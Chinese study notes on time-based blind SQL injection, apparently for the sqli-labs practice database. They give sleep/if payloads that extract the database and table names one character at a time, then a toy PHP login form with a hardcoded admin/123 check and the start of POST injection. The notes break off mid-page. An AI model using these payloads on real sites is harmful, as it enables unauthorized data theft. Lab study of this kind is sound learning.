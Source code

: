 select if((select database())="haha",sleep(5),null);
判断一下数据库库名是不是haha，如果是，睡5s，不是就返回null

实战：
id=2' and sleep(5) --+
说明可以睡觉

id=2' and if((select database())="security",sleep(5),null) --+

id=2' and if((select substr(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='e',sleep(5),null) --+

database() 如果不想写，可以写security的hex值

===============================================

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>haha</title>
</head>
<body>

<form action="" method="POST">
username:<input type="text" name="uname" /><br/>
password:<input type="password" name="upwd"/><br/>
<input type="submit" value="click me"/>

</form>

<?php

$name = $_POST['uname'];
$pwd = $_POST['upwd'];

if($name=="admin"&&$pwd=="123"){
    echo "success";
}else{
    echo "fail";
}


?>


</body>
</html>
post 注入

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>haha</title>
</head>
<body>
